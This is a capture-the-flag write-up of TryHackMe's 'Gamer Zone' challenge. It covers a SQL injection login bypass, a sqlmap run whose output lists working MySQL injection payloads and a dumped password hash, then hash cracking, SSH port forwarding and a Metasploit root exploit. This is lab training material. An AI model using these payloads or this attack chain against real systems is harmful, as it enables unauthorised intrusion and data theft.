

# Gamer Zone CTF

A writeup on the challenge from TryHackMe!


### nmap
To start off, we do an nmap scan to see some of the running services.

`nmap -sV -O 10.10.245.4 -vv`


### website


In the login form, we can try to use SQL injection to gain access without needing a password.


This ends one SQL statement by closing it with `'` and then runs `OR` with `1=1` which is a [tautology](https://en.wikipedia.org//wiki/Tautology_(logic)) basically meaning something that is always true. It is closed out with `-- -` which comments out the rest of the query, so that it won't raise any errors. I attempted the injection with `--` (typically how an sql comment looks) but it didn't work. Perhaps there is something that filters our `--` in some way.

We are then brought to the next page


### sqlmap

Let's try a test query and intercept it with Burp.


Copy the request into a file `request.txt` so it can be used in sqlmap.

We are going to try to get the site to dump the entire database.

```
┌──(root㉿kali)-[~]
└─# sqlmap -r request.txt --dbms=mysql --dump        
        ___
       __H__                                                                                                                                                                   
 ___ ___[.]_____ ___ ___  {1.6.10#stable}                                                                                                                                      
|_ -| . [,]     | .'| . |                                                                                                                                                      
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:15:09 /2023-08-09/

[19:15:09] [INFO] parsing HTTP request from 'request.txt'
[19:15:09] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-8207' OR 7248=7248#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=test' AND GTID_SUBSET(CONCAT(0x7162717071,(SELECT (ELT(6226=6226,1))),0x716b706a71),6226)-- efZz

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=test' AND (SELECT 7298 FROM (SELECT(SLEEP(5)))DrfP)-- pcTO

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=test' UNION ALL SELECT NULL,NULL,CONCAT(0x7162717071,0x4a477a4465575a6f644d7a5578425459787a49756e536b5074656f5262776b455a496e4641556c49,0x716b706a71)#
---
[19:15:10] [INFO] testing MySQL
[19:15:10] [INFO] confirming MySQL
[19:15:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[19:15:10] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[19:15:10] [INFO] fetching current database
[19:15:10] [INFO] fetching tables for database: 'db'
[19:15:10] [INFO] fetching columns for table 'users' in database 'db'
[19:15:10] [INFO] fetching entries for table 'users' in database 'db'
[19:15:10] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[19:15:20] [INFO] writing hashes to a temporary file '/tmp/sqlmapksufb8eg17080/sqlmaphashes-0uvi55xd.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

[19:15:31] [INFO] table 'db.users' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.245.4/dump/db/users.csv'
[19:15:31] [INFO] fetching columns for table 'post' in database 'db'
[19:15:31] [INFO] fetching entries for table 'post' in database 'db'
Database: db
Table: post
[5 entries]
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | name                           | description                                                                                                                                                                                            |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | Mortal Kombat 11               | Its a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         |
| 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isnt to say that it isnt a rollicking good time. |
| 3  | SWBF2 2005                     | Best game ever                                                                                                                                                                                         |
| 4  | Hitman 2                       | Hitman 2 doesnt add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But thats not a bad thing.                                          |
| 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      |
+----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

[19:15:31] [INFO] table 'db.post' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.245.4/dump/db/post.csv'
[19:15:31] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.245.4'
[19:15:31] [WARNING] your sqlmap version is outdated

[*] ending @ 19:15:31 /2023-08-09/
```
Success!

### cracking the password

Now we can prepare our newly found hash `ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14` for cracking.


Then we  identify the hash type.


Finally we can run `john` to find the password.


### getting into the system

Use `ssh` to get into the system with our new username and password.


### exposing services with reverse SSH tunnels

We run `ss` to show socket statistics.


There is a TCP service running on port 10000, hypothetically open to remote users. We didn't see this in our nmap scan, so let's investigate further.



It can't be reached as a remote site...

We can use a reverse SSH tunnel to expose this new mystery service.

`ssh -L 10000:localhost:10000 agent47@10.10.145.4`

So we are now forwarding this service to ourselves. 

Check the browser!

 Log in with the same username and password as we did for SSH. (Please don't reuse passwords in the real world)


Now gives us information about the service running. 


### using an exploit to get root

Now we know what service is running, let's look around for ways to exploit it. For this I will be using `msfconsole`.


Set the options as follows:


Now that everything is set up, we can run the exploit and gain root access!


